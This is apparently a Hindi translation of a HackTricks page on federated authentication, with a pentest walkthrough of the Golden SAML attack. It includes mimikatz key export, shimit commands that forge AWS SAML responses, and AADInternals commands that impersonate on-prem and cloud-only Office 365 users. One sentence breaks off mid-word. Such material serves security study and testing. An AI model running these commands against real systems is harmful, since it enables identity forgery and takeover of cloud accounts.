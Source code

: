 # संघटना

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS की नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को PR जमा करके।

</details>

## मूलभूत जानकारी

**संघटना** एक संग्रह है जिसमें **विश्वास स्थापित** किए गए **डोमेन** शामिल होते हैं। विश्वास का स्तर भिन्न हो सकता है, लेकिन आमतौर पर इसमें **प्रमाणीकरण** और लगभग हमेशा **अधिकारीकरण** शामिल होता है। एक साधारण संघटना में एक सेट के लिए साझा पहुंच के लिए **विश्वास स्थापित** करने वाले **कई संगठन** शामिल हो सकते हैं।

आप अपने **ऑन-प्रेमिसेस** माहौल को **Azure AD** के साथ संघटित कर सकते हैं और प्रमाणीकरण और अधिकारीकरण के लिए इस संघटना का उपयोग कर सकते हैं। इस साइन-इन विधि से सुनिश्चित होता है कि सभी उपयोगकर्ता **प्रमाणीकरण ऑन-प्रेमिसेस पर होता है**। यह विधि प्रशासकों को पहुंच नियंत्रण के अधिक कठोर स्तर को लागू करने की अनुमति देती है। **AD FS** और PingFederate के साथ संघटना उपलब्ध है।

<figure><img src="../../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

मूल रूप से, संघटना में सभी **प्रमाणीकरण** **ऑन-प्रेम** माहौल में होता है और उपयोगकर्ता सभी विश्वसनीय माहौलों में SSO का अनुभव करता है। इसलिए, उपयोगकर्ता अपने **ऑन-प्रेम प्रमाणों** का उपयोग करके **क्लाउड** एप्लिकेशन तक पहुंच सकते हैं।

**सुरक्षा दावा चिह्न भाषा (SAML)** का उपयोग प्रमाणीकरण और अधिकारीकरण की सभी सूचनाओं का आपसी विनिमय करने के लिए किया जाता है।

किसी भी संघटना सेटअप में तीन पक्ष होते हैं:

* उपयोगकर्ता या ग्राहक
* पहचान प्रदाता (IdP):
* सेवा प्रदाता (SP)

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. पहले उपयोगकर्ता **एक एप्लिकेशन तक पहुंच करने का प्रयास करता है** (जिसे SP यानी सेवा प्रदाता भी कहा जाता है), जो कि AWS कंसोल, vSphere वेब क्लाइंट आदि हो सकता है। अनुमानित करने पर, क्लाइंट सीधे IdP के पास जा सकता है और इस डायग्राम में पहले स्टेप को छोड़ सकता है।
2. एप्लिकेशन फिर **IdP का पता लगाता है** (जैसे कि पहचान प्रदाता, AD FS, Okta आदि) उपयोगकर्ता की प्रमाणीकरण करने के लिए, **एक SAML AuthnRequest उत्पन्न करता है** और क्लाइंट को IdP पर पुनर्निदेशित करता है।
3. **IdP उपयोगकर्ता की प्रमाणीकरण करता है**, **एक SAMLResponse बनाता है** और उपयोगकर्ता के माध्यम से इसे SP को पोस्ट करता है।
4. SP **SAMLResponse की जांच करता है** और **उपयोगकर्ता को लॉग इन करता है**। SP को इडीपी के साथ विश्वास संबंध होना चाहिए। उपयोगकर्ता अब सेवा का उपयोग कर सकता है।

**यदि आप SAML प्रमाणीकरण और सामान्य हमलों के बारे म
#### AWS + AD FS + Golden SAML = ♥ (केस स्टडी)

[एक्टिव डायरेक्टरी फेडरेशन सेवाएं](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402\(v=msdn.10\)) (**AD FS**) माइक्रोसॉफ्ट के मानकों पर आधारित डोमेन सेवा है जो विश्वसनीय व्यापारिक साथीयों (**फेडरेशन**) के बीच पहचान जानकारी को सुरक्षित रूप से साझा करने की अनुमति देती है। यह मूल रूप से एक डोमेन में एक सेवा है जो फेडरेशन के भीतर अन्य सेवा प्रदाताओं को डोमेन उपयोगकर्ता पहचान प्रदान करती है।

मान लेते हैं कि AWS डोमेन को विश्वसनीयता देता है (फेडरेशन में) तो आप इस हमले का लाभ उठा सकते हैं और अभ्यास के अनुसार **क्लाउड माहौल में किसी भी अनुमतियों को प्राप्त** कर सकते हैं। इस हमले को करने के लिए, आपको **SAML** ऑब्जेक्ट्स को साइन करने वाली **निजी कुंजी** की आवश्यकता होगी (गोल्डन टिकट में KRBTGT की आवश्यकता की तरह)। इस निजी कुंजी के लिए, आपको डोमेन व्यवस्थापक पहुंच की आवश्यकता नहीं होगी, आपको केवल AD FS उपयोगकर्ता खाता की आवश्यकता होगी।

यहां एक गोल्डन SAML हमले को करने के लिए आवश्यकताओं की सूची है:

* **टोकन-साइन करने वाली निजी कुंजी**
* **IdP सार्वजनिक प्रमाणपत्र**
* **IdP नाम**
* **भूमिका नाम (अस्सुम करने के लिए भूमिका)**
* डोमेन\उपयोगकर्ता नाम
* AWS में भूमिका सत्र नाम
* अमेज़ॅन खाता आईडी

_अनिवार्य आवश्यकताएं हाइलाइट की गई हैं। अनिवार्य न होने वाले अन्य फ़ील्ड के लिए, आप कुछ भी दर्ज कर सकते हैं।_

**निजी कुंजी** के लिए आपको **AD FS खाते** तक पहुंच की आवश्यकता होगी, और उसके **निजी संग्रह** से आपको **निजी कुंजी को निर्यात करनी** होगी (निर्यात को [mimikatz](https://github.com/gentilkiwi/mimikatz) जैसे उपकरणों के साथ किया जा सकता है)। अन्य आवश्यकताओं के लिए आप Microsoft.Adfs.Powershell पावरशेल स्नैपिन आयात कर सकते हैं और इसे निम्नलिखित तरीके से उपयोग कर सकते हैं (आपको ADFS उपयोगकर्ता के रूप में चल रहा होना चाहिए):
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
सभी जानकारी के साथ, आप [**shimit**](https://github.com/cyberark/shimit) का उपयोग करके अपनी पहचान छिपाने के लिए एक मान्य SAMLResponse भूल सकते हैं: 

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### ऑन-प्रेम -> क्लाउड
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
यह भी संभव है कि केवल क्लाउड उपयोगकर्ताओं के ImmutableID बनाया जा सकता है और उनका अनुकरण किया जा सकता है।
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी **कंपनी को हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>
